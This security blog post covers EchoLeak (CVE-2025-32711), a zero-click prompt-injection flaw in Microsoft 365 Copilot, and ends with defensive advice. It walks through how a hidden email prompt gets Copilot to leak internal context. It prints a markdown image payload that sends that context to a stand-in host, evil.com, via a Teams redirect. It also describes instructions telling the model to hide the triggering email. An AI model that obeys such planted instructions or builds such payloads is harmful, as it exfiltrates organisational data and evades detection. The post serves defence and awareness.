 ```yaml
---
layout: post
title: "This Is Not a Drill: EchoLeak (CVE-2025-32711) and the First Real-World Zero-Click LLM Attack"
date: 2025-06-25
categories: [AI Security, Prompt Injection]
tags: [ai-threats, data-exfiltration, cve-2025-32711, copilot, microsoft-365, rag-vulnerabilities, llm-attack-surface]
---
```


# EchoLeak: CVE-2025-32711 and the Rise of Zero‑Click LLM Exploits

In June 2025, a critical vulnerability dubbed **EchoLeak** (CVE‑2025‑32711) was disclosed that affects Microsoft 365 Copilot. It represents one of the first *zero-click* prompt injection attacks in an LLM-powered system and serves as a wake-up call about the reality of untrusted AI inputs.
<!--more-->

Official CVE entries for more details:

- [NVD: CVE‑2025‑32711](https://nvd.nist.gov/vuln/detail/CVE-2025-32711)  
- [Microsoft Security Response Center: CVE‑2025‑32711](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-32711)

---

## What is EchoLeak?

CVE‑2025‑32711 is a critical AI command injection flaw (CVSS 9.3) in Microsoft 365 Copilot. Attackers can embed hidden prompts within emails, which Copilot processes automatically—*without any user interaction*—to exfiltrate internal organizational data.

---

## How the Exploit Works

1. **Malicious email content**  
   The attacker sends a normal-looking email into the target’s inbox. It contains no obvious signs of malicious intent and passes through standard filters.

2. **Hidden instructions via Markdown**  
   The email includes a concealed exfiltration prompt that instructs the model to fetch a redirect URL embedding internal context. When Copilot parses the markdown, it unknowingly leaks sensitive data. For example:
   ```markdown
   [ref]: https://teams.microsoft.com/redirect?to=https://evil.com?leak={{copilot_context}}
   ![alt text][ref]
   ```
   This syntax appears benign but causes the model to leak internal context via query parameters.

3. **Zero-click exfiltration**  
   Copilot, during its background summarization tasks, automatically parses the email and resolves the embedded link—triggering the data leak without any user interaction.

4. **No trace left behind**  
   Some variants of the attack include instructions telling Copilot not to reference the triggering email in its reply, making detection and logging more difficult.

---

## Why It Matters

- **Completely zero-click**: No user prompt or interaction needed.
- **Filter evasion**: Benign-looking Markdown bypassed standard security controls.
- **High-impact exfiltration**: Access to Outlook, Teams, SharePoint, and more.
- **Scope violation**: Demonstrates how RAG boundaries and AI filters can be bypassed by creative injection.

---

## Key SecOps Takeaways

EchoLeak proves that prompt injection isn't theoretical—it’s here and it's weaponized. Here are strategies to mitigate this class of risk:

- **Treat all inputs as hostile**: Sanitize and filter AI inputs, not just outputs.
- **Enforce context boundaries**: Limit RAG scope and audit retrieval logic.
- **Restrict model browsing**: Architect LLMs to avoid untrusted content fetches.
- **Monitor LLM behavior**: Log and alert on unusual model-driven network calls or redirects.
- **Red-team for prompt injection**: Traditional red-teaming often ignores LLMs—but with AI integrated into critical systems, security teams must treat them like any other attack surface. Simulate realistic prompt injection attempts using emails, markdown, code snippets, and adversarial inputs that test how your LLM agents process and act on external content.

Prompt injection is a real and growing threat. As enterprises rely more on LLMs, security teams must build prompt hygiene into system design and defenses.

---

*Sources: NVD, Microsoft Security Response Center, The Hacker News, SOC Prime, Field Effect Security Intelligence.*

---

> Exploiting data. Securing AI. Living between the tokens and the dead prompts.
